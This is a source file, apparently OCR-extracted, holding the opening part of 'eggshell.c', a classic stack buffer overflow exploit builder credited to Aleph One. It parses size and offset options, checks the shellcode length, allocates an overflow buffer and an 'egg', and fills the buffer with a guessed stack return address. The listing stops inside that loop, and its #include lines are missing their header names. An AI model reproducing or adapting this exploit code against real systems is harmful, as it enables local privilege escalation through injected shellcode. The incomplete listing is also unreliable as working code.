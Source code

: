 eggshell.c

```
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */
#include
#include
#include "shellcode.h"

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_EGG_SIZE 2048

void usage(void);

void main(int argc, char *argv[]) {
    char *ptr, *bof, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

    while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
        switch (c) {
            case 'a':
                align = atoi(optarg);
                break;
            case 'b':
                bsize = atoi(optarg);
                break;
            case 'e':
                eggsize = atoi(optarg);
                break;
            case 'o':
                offset = atoi(optarg);
                break;
            case '?':
                usage();
                exit(0);
        }

    if (strlen(shellcode) > eggsize) {
        printf("Shellcode is larger the the egg.\n");
        exit(0);
    }

    if (!(bof = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_sp() - offset;
    printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
        bsize, eggsize, align);
    printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

    addr_ptr = (long *) bof;
    for (i = 0; i < bsize; i+=4)
```